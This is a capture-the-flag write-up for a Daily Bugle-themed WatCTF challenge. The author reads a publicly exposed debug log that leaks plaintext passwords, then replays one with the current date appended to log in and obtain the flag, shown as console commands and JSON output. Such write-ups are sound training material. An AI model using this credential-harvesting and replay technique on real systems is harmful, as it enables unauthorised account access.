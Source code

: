 #  web-slinger-logs 
## Introduction
W. Wonah Wameson here! That wall-crawling menace Spider-Man has been spotted near our secure Daily Bugle authentication servers! Our IT department claims their new password-based login system is "foolproof" - but I have my doubts. Word on the street is that Spider-Man's been swinging around, potentially capturing login credentials mid-air with his web-shooters!

Your mission, should you choose to accept it (and not end up as front-page news), is to investigate this web of security vulnerabilities. The server appears to be leaking sensitive information faster than Peter Parker runs from responsibility!


We get the following:
* nc challs.watctf.org 8000

## Investigation
Since all we get is a connection, lets see whats there.

```console
> ncat challs.watctf.org 8000
Daily Bugle Authentication System
============================================================
Commands:
  logs
  login <username> <password>
  exit
============================================================
```

Lets see if the logs are publically accessible.

```console
> logs
```
```json
{
  "timestamp": "2025-09-11T14:50:39.995024",
  "login_attempts": [
    {
      "timestamp": "2025-09-08T08:15:23",
      "date": "2025-09-08",
      "user": "admin",
      "password": "admin123",
      "type": "login_attempt",
      "status": "failed",
      "reason": "invalid_credentials"
    },
    {
      "timestamp": "2025-09-09T09:22:45",
      "date": "2025-09-09",
      "user": "test1",
      "password": "securepass2024_2025-09-09",
      "type": "login_attempt",
      "status": "success",
      "reason": "valid_credentials"
    },
    {
      "timestamp": "2025-09-08T10:33:12",
      "date": "2025-09-08",
      "user": "guest",
      "password": "guest",
      "type": "login_attempt",
      "status": "failed",
      "reason": "account_locked"
    },
    {
      "timestamp": "2025-09-06T11:44:56",
      "date": "2025-09-06",
      "user": "test2",
      "password": "mypassword456_2025-09-06",
      "type": "login_attempt",
      "status": "success",
      "reason": "valid_credentials"
    },
    {
      "timestamp": "2025-09-05T12:55:33",
      "date": "2025-09-05",
      "user": "service",
      "password": "wrongpass",
      "type": "login_attempt",
      "status": "failed",
      "reason": "invalid_credentials"
    },
    {
      "timestamp": "2025-09-08T13:16:07",
      "date": "2025-09-08",
      "user": "test3",
      "password": "hunter2021_2025-09-08",
      "type": "login_attempt",
      "status": "success",
      "reason": "valid_credentials"
    }
  ],
  "recent_logins": [],
  "message": "System logs - FOR DEBUGGING ONLY"
}
```

Here we see some instances of users trying to access their accounts.

## Exploitation
First i thought we were looking for a slight error in an important login. Like an admin writing their username as `admim`. However, after not finding something of the like i thought to just try the successfull logins for the `test` users.

```console
> login test1 securepass2024_2025-09-09
```
```json
{
  "Status": "400",
  "Message": "Invalid password. Login failed for user 'test1'."
}
```

Maby for some reason the logging tool stores the date of the attempt at the end of the password. So, lets try without.

```console
> login test1 securepass2024
```
```json
{
  "Status": "400",
  "Message": "Login failed: missing date suffix."
}
```

Seems the date suffix is needed. Lets try changing the date to today.

```console
> login test1 securepass2024_2025-09-11
```
```json
{
  "Status": "200",
  "Message": "Replay attack successful",
  "flag": "watctf{web_slinger_replay_2025}"
}
```

We are logged in and obtained the flag.

```text
watctf{web_slinger_replay_2025}
```
